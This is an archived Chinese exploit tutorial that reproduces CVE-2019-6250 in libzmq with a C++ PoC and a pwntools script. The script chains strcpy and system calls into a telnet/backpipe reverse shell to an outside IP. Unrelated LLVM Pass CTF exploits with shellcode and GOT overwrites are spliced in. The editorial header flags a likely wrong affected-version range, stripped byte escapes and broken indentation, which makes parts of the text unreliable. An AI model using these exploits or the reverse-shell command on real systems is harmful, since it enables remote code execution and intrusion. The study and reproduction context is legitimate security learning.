# CVE初探之CVE-2019-6250反弹Shell

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：libzmq；独立LLVM CTF题
- 文献类型：复现教程混入CTF合集
- 版本、权限及部署边界：固定libzmq提交；示范本地目标同进程地址，后续EXP假设无PIE及固定ELF、内存布局；cppzmq未固定版本
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 影响版本写4.3.1之后的4.3.x疑似比较方向反转，需公告核实，不按此划全新版本受影响
2. 获取shell之后突然接入LLVM Pass基础及三个独立CTF题，应拆分；不能把CTF任意写归到6250或LLVM真实漏洞
3. Python缩进和\x字节转义丢失，shell命令空格缺失；C++代码末尾混中文指令，缺demo/CMake定义及非PIE编译方式
4. file offset+0x400000并非任意ELF字节虚拟地址映射；strcpy会复制到NUL而非单字符，需说明缓冲及布局假设；本地已知地址PoC不能直接证明通用远程利用
5. LLVM两次malloc即必进smallbin的叙述缺free/arena前提；one_gadget失败实测应保留，CTF二进制和libc版本缺失

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/zeromq/libzmq.git>
- 原文参考链接（未重新核验）：<https://github.com/zeromq/cppzmq>
- 原文参考链接（未重新核验）：<http://mp.weixin.qq.com/s?__biz=MzkyNTY3Nzc3Mg==&mid=2247484713&idx=1&sn=28c29e069e8bd8ceb0bb9b8724563a15&chksm=c1c3a48af6b42d9c05802480e731f8054250576e425306e620b110db89c7b6ea9451be2b4976&scene=21#wechat_redirect>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

5ma11wh1t3  蚁景网安   2024-07-04 17:30  
  
## 概述  
  
ZMQ(Zero Message Queue)是一种基于消息队列得多线程网络库，C++编写，可以使得Socket编程更加简单高效。  
  
该编号为CVE-2019-6250的远程执行漏洞，主要出现在ZMQ的核心引擎libzmq(4.2.x以及4.3.1之后的4.3.x)定义的ZMTP v2.0协议中。  
  
这一漏洞已经有很多师傅都已经分析并复现过了，但在环境搭建和最后的利用都所少有一些不完整，为了更好的学习，在学习师傅们的文章后，我进行了复现，并进行了些许补充，供师傅们学习，特别是刚开始复现CVE的师傅。  
## 环境搭建  
  
复现CVE最关键也是最繁琐的一步就是搭建漏洞环境，尽量保持与CVE报告的漏洞环境一致，如旧版本环境实在搞不到，就只能对新版本进行适当patch，把漏洞部分恢复以进行复现。  
  
下面是针对该漏洞的环境搭建步骤  
  
下载目标版本并安装  
```
git clone https://github.com/zeromq/libzmq.git
cd libzmq
git reset --hard 7302b9b8d127be5aa1f1ccebb9d01df0800182f3
sudo apt-get install libtool pkg-config build-essential autoconf
automake
./autogen.sh
./configure
make
sudo make install
```  
  
下载cppzmq  
```
git clone https://github.com/zeromq/cppzmq
cd cppzmq
cmake .
sudo make -j4 install
```  
  
测试  
```
cd demo
编辑main.cpp,添加printf("hello worldn");
mkdir build
cd build
cmake ..
make
./demo
```  
  
demo可以正常执行即可  
  
在我看到的几篇文章中，cppzmq好像都少了最后的make，导致编译并没有完全结束，影响后面的复现  
## 漏洞复现  
  
先看看已有的poc  
```
#include <netinet/in.h>
#include <arpa/inet.h>
#include <zmq.hpp>
#include <string>
#include <iostream>
#include <unistd.h>
#include <thread>
#include <mutex>

class Thread {
public:
Thread() : the_thread(&Thread::ThreadMain, this)
{ }
~Thread(){
}
private:
std::thread the_thread;
void ThreadMain() {
zmq::context_t context (1);
zmq::socket_t socket (context, ZMQ_REP);
socket.bind ("tcp://*:6666");

while (true) {
zmq::message_t request;

// Wait for next request from client
try {
socket.recv (&request);
} catch ( ... ) { }
}
}
};

static void callRemoteFunction(const uint64_t arg1Addr, const uint64_t
arg2Addr, const uint64_t funcAddr)
{
int s;
struct sockaddr_in remote_addr = {};
if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1)
{
abort();
}
remote_addr.sin_family = AF_INET;
remote_addr.sin_port = htons(6666);
inet_pton(AF_INET, "127.0.0.1", &remote_addr.sin_addr);

if (connect(s, (struct sockaddr *)&remote_addr, sizeof(struct
sockaddr)) == -1)
{
abort();
}

const uint8_t greeting[] = {
0xFF, /* Indicates 'versioned' inzmq::stream_engine_t::receive_greeting */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* Unused */
0x01, /* Indicates 'versioned' inzmq::stream_engine_t::receive_greeting */
0x01, /* Selects ZMTP_2_0 inzmq::stream_engine_t::select_handshake_fun */
0x00, /* Unused */
};
send(s, greeting, sizeof(greeting), 0);

const uint8_t v2msg[] = {
0x02, /* v2_decoder_t::eight_byte_size_ready */
0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, /* msg_size */
};
send(s, v2msg, sizeof(v2msg), 0);

/* Write UNTIL the location of zmq::msg_t::content_t */
size_t plsize = 8183;
uint8_t* pl = (uint8_t*)calloc(1, plsize);
send(s, pl, plsize, 0);
free(pl);

uint8_t content_t_replacement[] = {
/* void* data */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* size_t size */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* msg_free_fn *ffn */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

/* void* hint */
0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};

/* Assumes same endianness as target */
memcpy(content_t_replacement + 0, &arg1Addr, sizeof(arg1Addr));
memcpy(content_t_replacement + 16, &funcAddr, sizeof(funcAddr));
memcpy(content_t_replacement + 24, &arg2Addr, sizeof(arg2Addr));

/* Overwrite zmq::msg_t::content_t */
send(s, content_t_replacement, sizeof(content_t_replacement), 0);

close(s);
sleep(1);
}

char destbuffer[100];
char srcbuffer[100] = "ping google.com";

int main(void)
{
Thread* rt = new Thread();
sleep(1);

callRemoteFunction((uint64_t)destbuffer, (uint64_t)srcbuffer,
(uint64_t)strcpy);

callRemoteFunction((uint64_t)destbuffer, 0, (uint64_t)system);

return 0;
}

复制到demo重新编译
```  
  
执行./demo  
  
  
  
复现成功  
## POC分析  
  
poc主要包括下面四部分  
```
greeting
v2msg
plsize
content_t_replacement
```  
  
v2msg用于设置msg_size=0xffffffffffffffff，其中的0x2标识程序进入eight_byte_size_ready状态，调用zmq::v2_decoder_t::size_ready进行解析，zmq::v2_decoder_t::size_ready方法在做比较判断的时候，使用的read_pos_ + msg_size加法发生整型溢出，导致可绕过缓冲区大小校验进入else流程。else流程调用zmq::msg_t::init()方法，该方法不会重新分配缓冲区大小而直接处理数据。在后续流程中将造成缓冲区写越界。下面是源代码中存在漏洞的部分。  
```
if (unlikely (!_zero_copy
|| ((unsigned char *) read_pos_ + msg_size_
> (allocator.data () + allocator.size ())))) {
rc = _in_progress.init_size (static_cast<size_t> (msg_size_));
} else {
rc = _in_progress.init (const_cast<unsigned char *> (read_pos_),
static_cast<size_t> (msg_size_),
shared_message_memory_allocator::call_dec_ref,
allocator.buffer (), allocator.provide_content ());
if (_in_progress.is_zcmsg ()) {
allocator.advance_content ();
allocator.inc_ref ();
}
}
```  
  
plsize作为padding，长度为0x1FF7，使得content_t_replacement可以覆盖_u.zclmsg.content指向的结构体。  
  
  
  
ffn为函数指针，data和hint为两个参数的地址值，ffn将在tcp连接关闭的时候被zmq::msg_t::close()方法调用，看下图调试结果，成功执行了call 0xdeadbeaf  
  
  
## 反弹Shell  
  
由于还不清楚如何泄露地址，这里基于没有开PIE的程序编写exp。  
  
通过分析POC，我们发现可以控制ffn，data和hint，即调用函数和两个参数，可以实现远程代码执行。  
  
那么我的目标是反弹shell，也就是执行  
```
system("mknod backpipe1 p && telnet192.168.25.1 4444 0<backpipe1 | /bin/bash1>backpipe1;")
```  
  
，当然这只是其中一种方式。  
  
那么，我的想法是，在二进制文件中找命令中的所有字符，通过执行strcpy进行拷贝，拼接成完整的命令，最后用调用system函数进行执行，实现反弹shell。  
  
exp如下  
```
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
'''@File : exp.py@Time : 2023/06/24 08:59:34@Author : 5ma11wh1t3@Contact : 197489628@qq.com'''

import ctypes
from pwn import *
import base64
context.log_level=True
context.arch='amd64'
elf_path = './build/demo'
elf = ELF(elf_path)
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
inter = lambda : p.interactive()
def debug():
    gdb.attach(p, 'directory    /home/guo/Desktop/cve/cve-2019-6250/libzmq/src')
    pause()
def lg(s,addr = None):
    if addr:
        print('033[1;31;40m[+] %-15s --> 0x%8x033[0m'%(s,addr))
    else:
        print('033[1;32;40m[-] %-20s 033[0m'%(s))

if __name__ == '__main__':
    re_shell = b"mknod backpipe1 p && telnet 192.168.25.1 4444 0<backpipe1    | /bin/bash 1>backpipe1;"
    with open(elf_path,'rb') as f:
    binary = f.read()
    ads = []
    for char in re_shell:
    char_address = 0x400000 + binary.index(char)
    ads.append(char_address)
    for i in range(len(ads)):
    p = remote('127.0.0.1',6666)
    p1 = b'xff' + b'x00'*8 + b'x01' + b'x01' +b'x00'
    p1 += b'x02' + b'xff'*8
    p1 += b'a'*8183
    p1 += p64(0x4050F8+i) # void* data rdi
    p1 += p64(0) # size_t size
    p1 += p64(elf.plt['strcpy']) # msg_free_fn *ffn func
    p1 += p64(ads[i]) # void* hint rsi
    sn(p1)
    p.close()
    p = remote('127.0.0.1',6666)
    p1 = b'xff' + b'x00'*8 + b'x01' + b'x01' +b'x00'
    p1 += b'x02' + b'xff'*8
    p1 += b'a'*8183
    p1 += p64(0x4050F8) # void* data rdi
    p1 += p64(0) # size_t size
    p1 += p64(elf.plt['system']) # msg_free_fn *ffn func
    p1 += p64(ads[i]) # void* hint rsi
    # raw_input()
    sn(p1)
    p.close()
```  
## 演示  
### 攻击准备  
  
本地起监听  
  
  
  
server  
  
  
  
### 攻击实施  
  
  
  
### 获得shell  
  
  
  
 一、基本流程  
  
①找到runOnFunction函数时如何重写的，一般来说runOnFunction都会在函数表最下面,找PASS注册的名称，一般会在README文件中给出，若是没有给出，可通过对__cxa_atexit函数"交叉引用"来定位：  
  
②通过逆向，找到函数名及参数，编写基本exp  
  
③找到漏洞，写利用exp.c，其中的pwn的目标是opt文件，查看保护和找gadget都在opt中找  
  
④生成.ll文件  
  
⑤将.ll文件输入到LLVM中  
## 二、命令  
  
用下面的命令可以生成.ll文件准备输入到LLVM中：  
```
clang -emit-llvm -S exp.c -o exp.ll
```  
  
最后用下面的命令将.ll文件输入到LLVM中，如果想要得到结果可以在后面添加> [文件名]来获取：  
```
opt -load ./LLVMFirst.so -hello ./exp.ll
```  
## 三、例题  
### 1.202Redhat simpleVM  
  
①重写函数  
  
  
  
  
②逆向，编写基本exp  
  
  
  
  
函数名为o0o0o0o0则继续执行sub_6AC0  
  
  
  
  
循环遍历每一个基本块  
  
  
  
  
这里也是一个循环遍历，其中指令码需要为55才能进入下一步操作，否则就会直接跳过这个指令去处理下一条指令，即函数o0o0o0o0中的代码都要是函数调用。  
  
getCalledFunction获取函数本身，然后获取函数名赋值给s1  
  
  
  
  
getNumOperands返回一条指令中的变量个数，包括函数名和参数，pop为2，即参数数量为1  
  
这里可以看到pop函数的参数是1,2，分别对应两个寄存器，pop操作就是弹栈操作，并且栈是从低到高生长  
  
  
  
  
push的参数也是一个，1或2，模拟压栈操作  
  
  
  
  
store参数1个，1或2，将reg1存的地址指向的地方赋值为reg2中的值  
  
  
  
  
load参数1个，1或2，将reg2赋值为reg1中的地址指向的值  
  
  
  
  
add参数2个，第一个是1或2，第2个是加的数，使寄存器中的值加上某一个值  
  
  
  
  
min参数2个，第一个是1或2，第2个是减的数，使寄存器中的值减去某一个值  
  
得到基本exp  
```
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg,int num){};
void min(int reg,int num){};

void o0o0o0o0(){

};
```  
  
③找到漏洞，写攻击exp  
  
store(1),将reg1存的地址指向的地方赋值为reg2中的值，这里就有任意地址写。  
  
load(1)，将reg2赋值为reg1中的地址指向的值，可以把libc写进去。  
  
add和min可以对reg里的值进行加减，相当于任意修改  
  
查看一下opt的保护  
  
  
  
  
没有开pie  
  
所以，攻击思路如下  
  
reg初始值都为0，首先将reg1通过add函数改为free函数的got表，再通过load函数将reg1中的地址指向的值赋值给reg2，再通过add或者min函数将reg2中的地址修改为one_gadget的地址，再通过store函数将reg2的值赋值给reg1存的地址指向的地方即free的got表  
```
add(1,free.got)
load(1)
add(2,ogg - free)
store(1)
```  
  
gdb调试  
```
gdb opt-8
set args -load ./VMPass.so -VMPass ./exp.ll
b main
b *0x4bb7e3
b *(0x7f11c1a00000+0x73EE)
tele 0x7f11c1a00000+0x20E580
```  
  
  
  
  
调试到这里，.so已经加载好了  
  
下断点调试即可  
  
调试可以看到成功修改free@got为one_gadget，但是三个都打不通，libc不同  
### 2.CISCN2021 satool  
  
  
  
  
PASS注册名称为SAPass  
  
  
  
  
函数名B4ckDo0r  
  
  
  
  
  
  
  
  
  
  
save函数，两个参数，char类型，申请一个0x20的堆块，把两个参数分别放入堆块中  
  
  
  
  
stealkey函数，没有参数，把堆块中的第一个8字节赋值给byte_204100  
  
  
  
  
  
  
  
fakekey函数，1个参数，与byte_204100相加并赋值给chunk的前8字节  
  
  
  
  
run函数，没有参数，将chunk的前八字节作为函数指针调动  
  
基本exp  
```
void save(char *a,char *b);
void stealkey();
void fakekey(int a);
void run();
void B4ckDo0r(){

}
```  
  
这里可以看到，save会malloc一个0x20大小的chunk，调试发现，save一次后，tcache中没有符合要求的chunk了，再save一次，就会变成small bins，这时候chunk中会有残留的libc指针，再通过stealkey把指针赋值给byte_204100，再用fakekey对指针进行偏移的加减，改为one_gadget，执行run函数，即可  
  
完整exp  
```
void save(char *a,char *b);
void stealkey();
void fakekey(int a);
void run();
void B4ckDo0r(){
save("aaaa","bbbb");
save("","b");
stealkey();
fakekey(-0x1090f2);
run();
}
```  
### 3.CISCN2023 llvmHELLO  
  
  
  
  
PASS注册名称为Hello  
  
  
  
  
Add函数，一个参数，申请一个堆块  
  
  
  
  
Del函数，一个参数，free一个堆块，没有uaf  
  
  
  
  
edit(idx,data_idx,data)，edit函数，3个参数，向第idx个chunk的第data_idx个四字节写入4字节  
  
  
  
  
Alloc函数，没有参数，将0x10000设置为可读可写可执行  
  
  
  
  
EditAlloc函数，2个参数，EditAlloc(idx,idx_alloc)，把第idx个chunk的前4个字节赋值给0x10000+idx_alloc处  
  
基本exp  
```
void Add(int size);
void Del(int idx);
void Edit(int idx,int data_idx,int data);
void Alloc();
void EditAlloc(int idx,int addr);
void hello(){

}
```  
  
在edit中，存在堆溢出，可利用edit修改tcache bin中chunk的fd，进行tcache bin attack，执行一次Alloc，申请0x10000开始的0x1000的空间，写入shellcode，由于没有开启PIE，用tcache bin attack改free的got表为0x10000，然后执行Del函数，执行shellcode拿到shell  
  
最终exp  
```
void Add(int size);
void Del(int idx);
void Edit(int idx,int data_idx,int data);
void Alloc();
void EditAlloc(int idx,int addr);

void hello(){
Add(0xa0);

Add(0x78); //0x8203
Edit(1,0,0xdeadbeef); // 0x8602
Add(0x78);
Edit(2,0,0xdeadbeef); // 0x8602
Add(0x78);
Edit(3,0,0xdeadbeef); // 0x8602
Del(1);
Del(3); //0x83e4
Edit(2,32,0x78b108); //

Alloc();//0x8690
Edit(0,0,0x56f63148); // 0x8602
EditAlloc(0,0);
Edit(0,0,0x622fbf48); // 0x8602
EditAlloc(0,4);
Edit(0,0,0x2f2f6e69); // 0x8602
EditAlloc(0,8);
Edit(0,0,0x54576873); // 0x8602
EditAlloc(0,12);
Edit(0,0,0x583b6a5f); // 0x8602
EditAlloc(0,16);
Edit(0,0,0x00050f99); // 0x8602
EditAlloc(0,20);

Add(0x78);
Add(0x78);
Edit(3,0,0x10000);
Edit(3,1,0);
Del(1);
}
```  
  
[](http://mp.weixin.qq.com/s?__biz=MzkyNTY3Nzc3Mg==&mid=2247484713&idx=1&sn=28c29e069e8bd8ceb0bb9b8724563a15&chksm=c1c3a48af6b42d9c05802480e731f8054250576e425306e620b110db89c7b6ea9451be2b4976&scene=21#wechat_redirect)  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
